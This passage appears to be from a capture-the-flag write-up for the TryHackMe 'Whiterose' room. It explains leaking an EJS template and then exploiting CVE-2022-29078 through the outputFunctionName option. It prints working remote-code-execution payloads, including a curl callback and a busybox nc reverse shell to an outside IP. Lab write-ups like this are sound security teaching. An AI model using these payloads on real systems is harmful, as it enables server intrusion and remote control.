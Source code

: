 We can try to confirm this by using theÂ `delimiter`Â option, which is also one of the options allowed to be passed along with data. By default, it is set toÂ `%`. If we change it to a string that does not exist in the template, we should be able to leak the template.

Testing our theory, we find that we are correct, as we successfully leak the template.

[![Web 80 Admin Settings Six](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings6.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings6.webp)

As I mentioned before, there are only a limited number of options allowed to be passed along with data. However, this is where theÂ `CVE-2022-29078`Â vulnerability comes into play. By using theÂ `settings['view options']`Â parameter, we are able to pass any option without limitation.

And there are certain options, likeÂ `outputFunctionName`, that are used byÂ **EJS**Â without any filtration to build the template body, allowing us to inject code it.

You can find more information about the vulnerability and theÂ **PoC**Â [here in this article](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

Testing theÂ **PoC**Â payload from the article, we find that it works, as we receive a request on our server.

`settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.11.72.22');s|`

[![Web 80 Admin Settings Seven](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings7.webp)](https://jaxafed.github.io/images/tryhackme_whiterose/web_80_admin_settings7.webp)

```ad-hint
`10.10.116.77 - - [31/Oct/2024 05:03:44] 
"GET / HTTP/1.1" 200 10.10.116.77 - - [31/Oct/2024 05:03:44] "GET / HTTP/1.1" 200 
10.10.116.77 - - [31/Oct/2024 05:03:45] "GET / HTTP/1.1" 200 -|`
````

Now, we can use it to obtain a shell, first by using our web server to serve a reverse shell payload.

Create a `index.html` file with this inside:

![Pasted image 20241106160836.png](../../IMAGES/Pasted%20image%2020241106160836.png)

![Pasted image 20241106160911.png](../../IMAGES/Pasted%20image%2020241106160911.png)


![Pasted image 20241106160440.png](../../IMAGES/Pasted%20image%2020241106160440.png)

Once, I sent the request, it seemed like the web server was unable to read my index.html file, so, I changed the request to this, and got a shell:

```ad-hint

##### USED

`&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.6.34.159 4444 -e bash');s`

#### OUTPUT



```
# PRIVILEGE ESCALATION
---
